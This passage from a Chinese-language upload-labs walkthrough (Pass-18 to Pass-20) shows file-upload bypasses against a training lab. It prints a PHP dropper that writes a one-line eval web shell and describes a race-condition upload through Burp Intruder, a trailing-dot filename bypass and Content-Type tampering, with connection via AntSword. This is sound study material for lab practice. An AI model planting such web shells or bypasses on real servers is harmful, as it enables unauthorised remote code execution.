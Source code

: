 ![PixPin_2025-05-15_21-38-24](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-15_21-38-24.6pnqe5xqw1.webp)

利用 **Apache 多后缀解析漏洞 + 条件竞争**

上传 `shell.php.7z`（用于生成 `fish.php`）

```php {filename="shell.php.7z"}
<?php fputs(fopen("fish.php","w"), "<?php @eval(\$_POST['fish']);?>");?>
```

![PixPin_2025-05-16_21-17-47](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-16_21-17-47.5mo14or8rq.webp)

访问 `shell.php.7z`

![PixPin_2025-05-16_21-18-52](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-16_21-18-52.1sf9lqaml8.webp)

将两条请求发送到 `Intruder` 模块

![PixPin_2025-05-16_21-20-46](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-16_21-20-46.8z6qz2bl5w.webp)

配置条件竞争的 `payload`

![PixPin_2025-05-16_21-21-32](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-16_21-21-32.7zqnlw9sq9.webp)

![PixPin_2025-05-16_21-21-49](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-16_21-21-49.6f0wmfcy6h.webp)

观察到 `/upload-labs-0.1/upload/shell.php.7z` 攻击时出现 `200` 状态码时停止攻击

![PixPin_2025-05-16_21-22-28](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-16_21-22-28.969yuhzx9v.webp)

使用蚁剑连接 `fish.php`

![PixPin_2025-05-15_20-49-17](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-15_20-49-17.3yeo61kdzi.webp)

## Pass-19

尝试 **点绕过**

保存名称 `fish1.php.`，上传成功

![PixPin_2025-05-16_22-34-50](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-16_22-34-50.1zihh8mjzw.webp)

使用蚁剑连接 `fish1.php`

![PixPin_2025-05-16_22-35-20](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-16_22-35-20.39lenk532m.webp)

## Pass-20

代码审计

![PixPin_2025-05-16_22-47-20](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-16_22-47-20.1sf9ltgdkj.webp)

修改 `Content-Type: image/jpeg`、`save_name[0]` 和 `save_name[2]`
